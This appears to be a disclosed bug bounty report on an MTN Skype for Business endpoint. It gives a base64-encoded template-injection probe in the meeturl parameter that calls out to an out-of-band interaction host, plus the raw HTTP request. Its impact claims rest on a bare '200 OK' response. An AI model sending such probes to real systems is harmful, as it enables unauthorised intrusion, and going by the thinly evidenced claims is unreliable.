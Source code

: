# CVE-2023-41763 Business Elevation of Privilege vulnerability on [.mtn.com]

## Report Details
- **Report ID**: 2309291
- **URL**: https://hackerone.com/reports/2309291
- **State**: Closed
- **Severity**: high
- **Submitted**: 2024-01-09T15:51:41.627Z
- **Disclosed**: 2025-02-22T15:49:20.268Z

## Reporter
- **Username**: h0w
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mtn_group

## Vulnerability Information
## Summary:
The Microsoft Skype for Business installation on the remote host is missing security updates. the flaw was actively exploited. Attackers could access some sensitive information but not alter or restrict access to it. The impact relates primarily to confidentiality. It is, therefore, affected by multiple vulnerabilities:
 - An elevation of privilege vulnerability. An attacker can exploit this to gain elevated privileges.
(CVE-2023-41763)
 - A remote code execution vulnerability. An attacker can exploit this to bypass authentication and execute unauthorized arbitrary commands. (CVE-2023-36780, CVE-2023-36786, CVE-2023-36789)


## Steps To Reproduce:
  1. Navigate visit  https://fec-feweb-ext.mtn.com/lwa/Webpages/LwaClient.aspx
  1. Intercept request to burp-suite and send to repeater
  1. Added `parameter-vulnerable` is `lwa/Webpages/LwaClient.aspx?meeturl=` I found this use recon
  1. Used `base64` encode to add  payloads `template-injection`  `LMN%{1337*1337}#.xx`
```
http://attacker-payload-interact.sh/?id=LMN%{1337*1337}#.xx//
```
  1. Sent request again, and boom **This server has vulnerable:**

Here's the HTTP Parameter request that the issue:
```
GET /lwa/Webpages/LwaClient.aspx?meeturl=aHR0cDovL2NtZDRjdm5laTU2Z3U5ZXRnMjIwb3AxaGI3ZWV3eDZjdS5vYXN0LmZ1bi8/aWQ9TE1OJTI1ezEzMzcqMTMzN30jLnh4Ly8= HTTP/1.1
Host: fec-feweb-ext.mtn.com
Sec-Ch-Ua: 
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: ""
Upgrade-Insecure-Requests: 1
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
``` 
```
HTTP/1.1 200 OK
Cache-Control: private
```

## Supporting Material/References:
Microsoft has released KB5032429 to address this issue.


{F2970073}

{F2970077}

## Impact

The Elevation of Privilege vulnerability, CVE-2023-41763, posed a significant security risk because it allowed attackers to potentially breach internet perimeters by exploiting Skype for Business. While the vulnerability primarily affected confidentiality, it could have led to the exposure of sensitive information that in turn might provide access to internal networks.

## Attachments
- image.png
- image.png
